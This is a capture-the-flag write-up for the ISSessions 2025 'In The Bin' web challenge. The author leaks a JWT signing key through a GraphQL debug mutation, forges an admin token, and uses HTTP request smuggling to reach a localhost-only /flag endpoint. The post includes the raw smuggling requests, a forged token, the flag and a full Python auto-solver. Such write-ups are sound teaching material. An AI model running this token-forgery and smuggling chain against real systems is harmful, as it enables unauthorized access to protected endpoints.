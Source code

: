 ```yaml
---
layout: post
title: ISSessionsCTF - "In The Bin" - GraphQL, JWT, Request Smuggling
---
```


### Introduction & Discovery
I'm writing this post as the ISSessions 2025 CTF comes to its conclusion. There were many great challenges worth writing about, but this write-up will be focused on my solution and first-blood to the KPMG sponsored challenge, `"In The Bin"`. I found this challenge to be the most unique out of the bunch.

![Photo of In The Bin](https://i.imgur.com/tAZUoxy.png)

The description is vague, just a reference to authentication tokens and a link to check out. Visiting the URL greets you with a fairly stereotypical corporate website design for all your construction container needs.

![Photo of home page](https://i.imgur.com/aBomWca.png)

As always, I poked around the website, looking at the HTML, JavaScript, CSS, and HTTP response headers for any interesting information which may help narrow down potential vulnerabilities. From this, I came across two links on the website with GraphQL and API documentation.
![https://issessionsctf-web-kpmg.chals.io/dev-old](https://i.imgur.com/y3x9Z3d.png)
![https://issessionsctf-web-kpmg.chals.io/graphql-docs](https://i.imgur.com/RfO2EF3.png)

Along with this, basic directory enumeration was able to discover two hidden endpoints which return error 403 on GET requests.
1. `/flag`
2. `/protected`

Maybe once we figure out the authentication issues, we can revisit this.

### Investigating GraphQL
I've only submitted two bugs at this point related to breaking GraphQL implementations, so I'm still quite new to it all. I referenced some queries on [HackTricks, which can be found here](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/graphql.html), using introspection to discover schema information with which gave me the following to work with:

{% highlight javascript %}
{
	"__schema": {
		"types": [{
			"fields": [{
				"name": "endpointInfo"
			}, {
				"name": "randomFact"
			}, {
				"name": "secretHint"
			}],
			"name": "Query"
		}, {
			"fields": [{
				"name": "jwtConfig"
			}, {
				"name": "generateToken"
			}, {
				"name": "debugLog"
			}, {
				"name": "generateKey"
			}],
			"name": "Mutation"
		}
		/* ... removed large portion of the response for clarity ... */
	}
}
{% endhighlight %}

This indicated to me that some of the "available queries" such as `passwordReset` and `loginActivity` were not actually available for usage. The most interesting of the bunch was `debugLog`, so I crafted the following HTTP request to be sent to the GraphQL endpoint.

{% highlight http %}
POST /graphql HTTP/1.1
Host: issessionsctf-web-kpmg.chals.io
Content-Type: application/json
Content-Length: 57

{
  "query": "mutation { debugLog(level: \"INFO\") }"
}
{% endhighlight %}

![Debug Log Result](https://i.imgur.com/zLutIWt.png)
The result of this request was huge, including things such as debugging information, authentication information, and general logging. Going over this information my eye was caught by this base64 string highlighted in the image above. Decoding the string gave me the following plaintext:

{% highlight graphql %}
mutation { jwtConfig(key: "SECRET_REQUEST")}
{% endhighlight %}

Of course, I had to run this to see what it gives me:
![Secret request???](https://i.imgur.com/EIiDj3y.png)

Bingo! This looks like a secret key for signing their JWT tokens... Time to learn more about the authentication mentioned in the description.

### Investigating the API and tokens
I tested all the API endpoints, all except one returned the status of 404 with the message `"Route to /${path} is not found"`. Out of the list, `/auth/tokens` was the only one which responded to a GET or POST request. Here is what the result of that looked like.
![TOKENS!](https://i.imgur.com/PV9CAY2.png)

The tokens appear to be broken or expired, with the bottom one belonging to an admin account. The signature of this token includes an `&` symbol which is not valid base64.

From the hint at the start of the JSON response, I decided to try and fix this token by re-signing it with my newly obtained key from the JWT config. [jwt.io](https://jwt.io) is a great resource for modifying JWT tokens, so that is what I used.
![Resigning the token](https://i.imgur.com/DlP7qn0.png)

If you recall from the very start, there is still those pesky `/flag` and `/protected` endpoints which required authentication. I set my newly crafted token using the `Authorization` header, and tried again.

`/flag` returned the following. It appears that it will only accept requests which are coming from the server which this is running on.
![Flag endpoint result](https://i.imgur.com/SPg38MZ.png)

`/protected` on the other hand returned a hint, something about smuggling happening with the containers.
![Protected endpoint result](https://i.imgur.com/84Ge0NH.png)

Embarrasingly to admit, I initally thought this may have been a reference to steganography and "smuggling secrets" from the images found on the homepage. I then came to learn that this was not the case, this message is a reference to [HTTP request smuggling attacks](https://portswigger.net/web-security/request-smuggling).

### Smuggling!
The plan of action is the send a smuggling request to `/protected`, and tricking the server into giving us the response to `/flag`. This part was quite tedious as when you send an invalid request, the webserver will restart and give you a new private key for the JWT token. After quite a bit of time tweaking headers such as content length & trying different options like GET / POST to `/flag`, I was able to craft this payload. As the `/flag` endpoint is expecting a request from `localhost`, I specificed this in the `Host` header of the smuggled request.

{% highlight http %}
POST /protected HTTP/1.1
Host: issessionsctf-web-kpmg.chals.io
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.Sr-OG-sOYCvuA_cLAas2R5I3onI_csZ9sNKPrwJtmF0
Content-Length: 215

0

GET /flag HTTP/1.1
Host: localhost
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.Sr-OG-sOYCvuA_cLAas2R5I3onI_csZ9sNKPrwJtmF0
{% endhighlight %}

![FLAG FOUND!](https://i.imgur.com/E8cIWXt.png)

There, we got the flag, along with first-blood on the challenge! `bhbureauctf{Sh1pp3d_4nd_D3l1v3r3d_Succ3ssfu11y___}`

I didn't dive too deep into how an HTTP request smuggling attack works. If you are interested in learning more about this rare attack vector, [here is the post written by p4k03n4t0r which I used as reference when creating my payload.](https://github.com/p4k03n4t0r/http-request-smuggling)


### Autosolver by SK
Generously "sk" from the ISSessions CTF Discord wrote a great auto-solver script for the challenge after I shared my solution. I'd like to give a [shoutout to his GitHub](https://github.com/shivakaushal) for this.
![Autosolver](https://i.imgur.com/L5kGuOQ.png)

{% highlight python %}
import requests
import json
import jwt

graphql_url = "https://issessionsctf-web-kpmg.chals.io/graphql"
headers = {
    "Host": "issessionsctf-web-kpmg.chals.io",
    "Content-Type": "application/json",
    "Connection": "keep-alive"
}
data = {
    "query": "mutation { jwtConfig(key: \"SECRET_REQUEST\") }"
}

response = requests.post(graphql_url, json=data, headers=headers)

if response.status_code == 200:
    try:
        response_json = response.json()
        secret_key = response_json.get("jwtConfig", "").split(": ")[-1]
        print("Extracted Secret Key:", secret_key)
        
        # Original JWT payload (use last JWT from https://issessionsctf-web-kpmg.chals.io/auth/tokens)
        payload = {
            "sub": "1234567890",
            "user": "admin",
            "iat": 1516239022
        }
        
        # Resigning the JWT with the extracted secret key
        new_jwt = jwt.encode(payload, secret_key, algorithm="HS256")
        print("Resigned JWT:", new_jwt)
        
        # Use the resigned JWT to access GET /protected
        protected_url = "https://issessionsctf-web-kpmg.chals.io/protected"
        protected_headers = {
            "Authorization": f"Bearer {new_jwt}"
        }
        protected_response = requests.get(protected_url, headers=protected_headers)
        
        print("\n\nProtected Endpoint Response:", protected_response.status_code)
        print(protected_response.text)

        req_smuggling_headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Content-Length": "50",
            "Authorization": f"Bearer {new_jwt}"
        }

        # Smuggling Payload (Chunked Transfer Encoding attack)
        smuggled_body = (
            "0\r\n"  # End of first request
            "\r\n"
            "GET /flag HTTP/1.1\r\n"
            "Host: localhost\r\n"
            f"Authorization: Bearer {new_jwt}\r\n"
        )

        smuggled_response = requests.post(protected_url, headers=req_smuggling_headers, data=smuggled_body)
        print(smuggled_response.text)

    except json.JSONDecodeError:
        print("Failed to parse JSON response")
else:
    print("Request failed with status code:", response.status_code)
    print(response.text)
{% endhighlight %}

![Hack the planet](https://media.tenor.com/K8R7LThju04AAAAC/hack-the-planet.gif)